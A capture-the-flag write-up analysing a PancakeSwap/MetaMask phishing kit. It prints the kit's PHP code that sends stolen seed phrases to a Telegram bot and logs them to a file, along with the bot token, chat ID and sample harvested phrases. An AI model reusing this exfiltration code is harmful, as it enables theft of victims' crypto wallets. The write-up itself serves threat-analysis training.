 # GrabThePhisher

## Scenario

In [this Cyberdefenders challenge](https://cyberdefenders.org/blueteam-ctf-challenges/95), an attacker compromised a server and impersonated <nolink>https://pancakeswap.finance</nolink>, a decentralized exchange native to BNB Chain, to host a phishing kit at <nolink>https://apankewk.soup.xyz/mainpage.php</nolink>. The attacker set it as an open directory with the file name "pankewk.zip". 

Provided the phishing kit, you as a soc analyst are requested to analyze it and do your threat intel homework.

## Tools used

* [Telegram API](https://core.telegram.org/bots/api#available-methods)

## Questions

***Q1 Which wallet is used for asking the seed phrase?***     

***Q2 What is the file name that has the code for the phishing kit?*** 

```text
sansforensics@siftworkstation: ~/Desktop/cases/c75-GrabThePhisher/pankewk
$ ls
background1.jpg  background2.jpg  background.jpg  cgi-bin  favicon.ico  images  index.html  log  logo.png  metamask  _next  src
sansforensics@siftworkstation: ~/Desktop/cases/c75-GrabThePhisher/pankewk
$ cd metamask
sansforensics@siftworkstation: ~/Desktop/cases/c75-GrabThePhisher/pankewk/metamask
$ ls
fonts  index.html  metamask.php
```

***Q3 In which language was the kit written?*** 

```text
php
```

***Q4 What service does the kit use to retrieve the victim's machine information?*** 

```text
sansforensics@siftworkstation: ~/Desktop/cases/c75-GrabThePhisher/pankewk/metamask
$ nano metamask.php
```

```text
<?php

$request = file_get_contents("http://api.sypexgeo.net/json/".$_SERVER['REMOTE_ADDR']); 
```

***Q5 How many seed phrases were already collected?***

```text
sansforensics@siftworkstation: ~/Desktop/cases/c75-GrabThePhisher/pankewk
$ cd log
sansforensics@siftworkstation: ~/Desktop/cases/c75-GrabThePhisher/pankewk/log
$ ls
log.txt
sansforensics@siftworkstation: ~/Desktop/cases/c75-GrabThePhisher/pankewk/log
$ cat log.txt
number edge rebuild stomach review course sphere absurd memory among drastic total
bomb stairs satisfy host barrel absorb dentist prison capital faint hedgehog worth
father also recycle embody balance concert mechanic believe owner pair muffin hockey
```

***Q6 Write down the seed phrase of the most recent phishing incident?*** 

```text
father also recycle embody balance concert mechanic believe owner pair muffin hockey
```

***Q7 Which medium had been used for credential dumping?*** 

***Q8 What is the token for the channel?*** 

***Q9 What is the chat ID of the phisher's channel?*** 

```text
sansforensics@siftworkstation: ~/Desktop/cases/c75-GrabThePhisher/pankewk/metamask
$ nano metamask.php
```

```text
sendTel($message);  

    function sendTel($message){
                $id = "5442785564"; 
        $token = "5457463144:AAG8t4k7e2ew3tTi0IBShcWbSia0Irvxm10"; 
                $filename = "https://api.telegram.org/bot".$token."/sendMessage?chat_id=".$id."&text=".urlencode($message)."&parse_mode=html";
                file_get_contents($filename);
        $_POST["import-account__secret-phrase"]. $text = $_POST['data']."\n";;
        @file_put_contents($_SERVER['DOCUMENT_ROOT'].'/log/'.'log.txt', $text, FILE_APPEND);    

    }
```

***Q10 What are the allies of the phish kit developer?***

```text
/*
 With love and respect to all the hustler out there,
 This is a small gift to my brothers,
 All the best with your luck,
 
 Regards, 
 j1j1b1s@m3r0
  
  */
```

***Q11 What is the full name of the Phish Actor?***

***Q12 What is the username of the Phish Actor?*** 

```text
$ curl  https://api.telegram.org/bot5457463144:AAG8t4k7e2ew3tTi0IBShcWbSia0Irvxm10/getChat?chat_id=5442785564 | jq .
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   160  100   160    0     0    403      0 --:--:-- --:--:-- --:--:--   402
{
  "ok": true,
  "result": {
    "id": 5442785564,
    "first_name": "Marcus",
    "last_name": "Aurelius",
    "username": "pumpkinboii",
    "type": "private",
    "active_usernames": [
      "pumpkinboii"
    ]
  }
}
```
